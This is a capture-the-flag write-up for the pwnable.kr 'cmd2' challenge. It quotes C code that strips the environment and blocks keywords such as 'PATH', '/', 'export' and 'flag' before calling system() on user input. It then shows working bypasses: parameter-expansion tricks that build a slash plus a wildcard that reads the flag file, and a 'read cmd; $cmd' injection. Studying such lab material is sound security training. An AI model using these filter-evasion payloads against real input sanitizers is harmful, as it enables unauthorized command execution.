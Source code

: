 # Cmd2

Cmd1 was too easy. Let's see what are pwnable's plans for us now:

```c
int filter(char* cmd){
    int r=0;
    r += strstr(cmd, "=")!=0;
    r += strstr(cmd, "PATH")!=0;
    r += strstr(cmd, "export")!=0;
    r += strstr(cmd, "/")!=0;
    r += strstr(cmd, "`")!=0;
    r += strstr(cmd, "flag")!=0;
    return r;
}

extern char** environ;
void delete_env(){
    char** p;
    for(p=environ; *p; p++)	memset(*p, 0, strlen(*p));
}

int main(int argc, char* argv[], char** envp){
    delete_env();
    putenv("PATH=/no_command_execution_until_you_become_a_hacker");
    if(filter(argv[1])) return 0;
    printf("%s\n", argv[1]);
    system( argv[1] );
    return 0;
}
```

Things have changed. We can't use PATH, equal signs, exports, slashes...
We can still get our flag, though. We just have to resort to other means, like using wildcards to get `flag` and ${VAR%???} substitutions to get a slash.

${VAR%????} returns $VAR stripped of the last 4 characters. Let's test it:

```bash
$ ./cmd2 "echo \$PWD"
/home/cmd2
$ ./cmd2 "echo \${PWD:???}"
/home/c
$ ./cmd2 "\${PWD%?????????}bin\${PWD%?????????}cat fl*"
```

Another fancy, easier solution would be to use the `read` command:

```bash
$ ./cmd2 "read cmd; \$cmd"
/bin/cat flag
```

Like `cmd1`, there are many other solutions left to the reader as an exercise. :)
